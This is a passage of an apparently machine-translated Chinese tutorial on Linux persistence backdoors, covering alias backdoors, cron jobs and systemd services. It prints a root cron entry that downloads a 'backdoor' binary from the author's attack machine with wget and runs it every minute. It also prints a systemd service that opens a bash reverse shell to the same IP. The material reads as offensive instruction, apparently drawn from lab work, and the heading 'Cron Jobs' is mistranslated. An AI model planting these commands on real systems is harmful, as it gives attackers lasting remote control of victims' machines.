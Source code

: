 以下是其他一些别名后门:

*   [https://github.com/nisay759/sudo-backdoor](https://github.com/nisay759/sudo-backdoor)
*   [https://gist.github.com/ahhh/1d4bf832c5a88cc75adb](https://gist.github.com/ahhh/1d4bf832c5a88cc75adb)

## 5.克朗·乔布斯

Cron 是 Linux/UNIX 类操作系统的一个特性，可用于定期执行特定的作业或任务，就像 Windows 中的任务调度程序一样。

下面是一个使用 Cron job 的后门的例子。

```
root@pinkys-palace:~# echo '* * * * * root cd /tmp; wget 192.168.2.103/backdoor && chmod +x backdoor && ./backdoor' > /etc/cron.d/backdoor
```

上面的任务是从我的攻击机器上下载一个叫做“后门”的恶意二进制文件，然后后门每分钟执行一次。

![](img/4a01e0708382c71c372a351dcf0de7b3.png)

Cron backdoor

## 6.后门即服务

攻击者还可以创建后门服务(BaaS)。以下是单个文件(`backdoor.service`)中的 BaaS 示例:

```
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.2.103/9001 0>&1"
[Install]
WantedBy=multi-user.target'
```
